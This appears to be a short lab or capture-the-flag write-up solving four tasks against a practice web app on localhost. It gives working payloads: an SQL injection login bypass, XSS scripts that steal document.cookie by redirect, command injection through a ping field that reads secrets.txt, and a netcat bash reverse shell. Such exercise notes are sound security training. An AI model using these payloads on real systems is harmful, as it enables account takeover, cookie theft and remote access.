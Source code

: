# SQL injection

Task 1: SQL injection
- username: `alice@alice.com' --`
- Leave password empty
    - In SQL, `--` is comment

Task 2: persistent XSS
- XSS:
    - type into comments box: 
    - ```<script type='text/javascript'> alert(document.cookie); </script>``` 
    
```
<script type='text/javascript'> 
    if (window.location.href.includes('news')){
        console.log('done');
    }else{
        window.location = 'http://localhost:5005/news?text=' + document.cookie;
    }
</script>
```

Task 3: reflected XSS:
link: `http://localhost:5005/malicious`

Task 4: reverse shell:
- To echo the contents of secrets.txt:
- `127.0.0.1; cat secrets.txt`

- To open reverse shell:
- On attacker machine: 
    - listen with port 8080, verbose
```nc -lvp 8080```
    - On victim:
    - Command is `bash -i >& /dev/tcp/127.0.0.1/8080 0>&1`

Therefore, this needs to be keyed into the ping:
- ```127.0.0.1; bash -i >& /dev/tcp/127.0.0.1/8080 0>&1```